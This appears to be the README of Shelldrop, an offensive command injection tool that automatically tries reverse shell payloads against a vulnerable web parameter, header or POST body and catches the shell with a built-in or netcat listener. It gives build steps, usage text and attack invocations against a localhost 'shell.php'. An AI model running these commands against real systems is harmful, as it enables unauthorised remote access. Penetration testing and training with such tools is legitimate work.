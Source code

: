 # Shelldrop

A command injection tool that leverages an injection point by automatically testing for working reverse shell payloads.

Shelldrop works by injecting payloads into the provided `SHELLDROP` keyword/placeholder.

**Features:**

- Configurable injection point
- Automatic payload detection
- Built-in listener
- Flexible configuration

![til](./demo/demo.gif)

## Build

```bash
git clone https://github.com/shhrew/shelldrop
cd shelldrop
go build -o shelldrop
```

## Usage

```text
usage: shelldrop [-h|--help] -l|--lhost "<value>" -p|--lport <integer>
                 [-P|--payload "<value>"] -u|--url "<value>" [-X|--method
                 (GET|POST|PUT|PATCH|DELETE)] [-d|--data "<value>"]
                 [-H|--header "<value>" [-H|--header "<value>" ...]]
                 [--no-listener] [--no-color]

                 A command injection tool that automatically tests for working
                 reverse shell payloads.

[*] = Asterisked arguments can contain the SHELLDROP injection keyword

Arguments:

  -h  --help         Print help information
  -l  --lhost        The listen address
  -p  --lport        The listen port
  -P  --payload      Specific payload to use
  -u  --url          The target url [*]
  -X  --method       The request method. Default: GET
  -d  --data         POST data [*]
  -H  --header       Header "Name: Value" pairs, can be used multiple times [*]
      --no-listener  Disable the built-in listener
      --no-color     Disable color output
```

## Examples

#### URL Injection
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP"
```

#### Using Specific Payload
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" -P bash_tcp_1
```

#### Post Data Injection
```bash
# Form data
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php" -X POST -d "vuln_param=SHELLDROP"

# JSON data
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php" -X POST -d '{"vuln_param": "SHELLDROP"}' -H "Content-Type: application/json"
```

#### Header Injection
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php" -H "User-Agent: SHELLDROP"
```

#### Using External Listener
```bash
# Start your own listener first
nc -lvp 4444

# Run shelldrop with built-in listener disabled
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" --no-listener
```